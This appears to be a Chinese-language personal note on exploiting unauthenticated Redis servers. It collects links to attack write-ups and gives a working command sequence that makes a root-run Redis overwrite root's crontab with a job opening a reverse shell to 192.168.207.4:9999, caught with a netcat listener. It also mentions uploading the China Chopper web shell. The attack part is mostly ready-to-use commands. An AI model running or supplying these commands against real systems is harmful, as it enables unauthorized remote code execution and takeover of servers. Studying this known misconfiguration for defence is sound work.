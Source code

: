 redis 漏洞利用
https://github.com/antirez/redis/issues/3594
https://webcache.googleusercontent.com/search?q=cache:6c-N8GHMMdIJ:https://www.jianshu.com/p/b8009a6772cf+&cd=6&hl=en&ct=clnk&gl=sg&client=firefox-b-d

redis利用姿势收集 https://phpinfo.me/2016/07/07/1275.html
对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习 https://www.k0rz3n.com/2019/07/29/对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习/
配置漏洞之redis未授权访问 https://uknowsec.cn/posts/skill/配置漏洞之redis未授权访问.html
https://xz.aliyun.com/t/2240

反弹shell
靶机用root启动redis
攻击机
```
apt-get install redis -y
redis-cli -h 192.168.207.3
CONFIG SET dir /var/spool/cron
CONFIG SET dbfilename root
set payload "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.207.4/9999 0>&1\n\n"
Save
Exit
nc -l -p 9999
```
上传中国菜刀


Redis攻击方法总结
https://mp.weixin.qq.com/s/qH14yE_7Iryr4uzYS2nUBw
